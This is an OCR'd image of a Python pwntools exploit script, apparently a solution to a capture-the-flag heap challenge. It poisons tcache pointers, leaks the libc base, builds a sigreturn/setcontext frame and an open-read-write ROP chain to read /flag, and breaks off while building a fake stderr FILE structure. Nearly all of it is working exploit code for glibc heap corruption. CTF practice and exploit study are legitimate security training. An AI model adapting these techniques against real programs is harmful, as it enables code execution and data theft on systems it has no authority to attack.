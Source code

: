 ```
    edit(0, b'arttnba3' * 2)
    free(0)
    free(0)
    edit(0, p64((heap_base + 0x10) ^ ((heap_base + 0x290 + 0x11c10 + 0x10) >> 12)))
    new(0x100) 
    new(0x100) 
    edit(2, b'\x00\x00' * 39 + b'\x07\x00') 

    log.info("start leaking the libc base addr...")
    free(2)
    free(2)
    edit(2, b'\x0a')
    dump(2)
    main_arena = u64(p.recvuntil(b"\x7f")[-6:].ljust(8, b"\x00")) - 96 - 0xa
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']
    log.success('libc base leak: ' + str(hex(libc_base)))

    log.info("start constructing the fake sigreturn frame on chunk 1...")
    fake_frame_addr = heap_base + 0x290 + 0x11c10 + 0x10
    fake_frame = SigreturnFrame()
    fake_frame['uc_stack.ss_size'] = libc_base + libc.sym['setcontext'] + 61
    fake_frame.rdi = 0
    fake_frame.rsi = libc_base + libc.sym['__free_hook']
    fake_frame.rdx = 0x200
    fake_frame.rsp = libc_base + libc.sym['__free_hook']
    fake_frame.rip = libc_base + libc.sym['read']
    edit(1, bytes(fake_frame) + b"/flag\x00")
    log.success("construction complete")

    log.info("start constructing the orw rop chain...")
    flag_addr = fake_frame_addr + len(bytes(fake_frame))
    pop_rdi_ret = libc_base + libc.search(asm("pop rdi ; ret")).__next__()
    pop_rsi_ret = libc_base + libc.search(asm("pop rsi ; ret")).__next__()
    pop_rdx_ret = libc_base + libc.search(asm("pop rdx ; ret")).__next__()
    pop_rdx_pop_rbx_ret = libc_base + libc.search(asm('pop rdx ; pop rbx ; ret')).__next__()

    orw = b''
    orw += p64(pop_rdi_ret) + p64(flag_addr) + p64(pop_rsi_ret) + p64(4) + p64(libc_base + libc.sym['open'])
    orw += p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_pop_rbx_ret) + p64(0x40) + p64(0) + p64(libc_base + libc.sym['read'])
    orw += p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_pop_rbx_ret) + p64(0x40) + p64(0) + p64(libc_base + libc.sym['write'])
    log.success("construction complete")

    log.info("start constructing the fake stderr structure...")
    fake_file = b""
    fake_file += p64(0) 
    fake_file += p64(fake_frame_addr) 
    fake_file += p64(0) 
    fake_file += p64(0) 
    fake_file += p64(0) 
    fake_file += b"arttnba3" 
    fake_file += p64(0) 
    fake_file += p64(0) 
    fake_file += p64(0) 
    fake_file += p64(0) * 4 
    fake_file += p64(libc_base + libc.sym['_IO_2_1_stdout_']) 
    fake_file += p32(2) 
    fake_file += p32(0) 
    fake_file += p64(0xFFFFFFFFFFFFFFFF) 
    fake_file += p16(0) 
```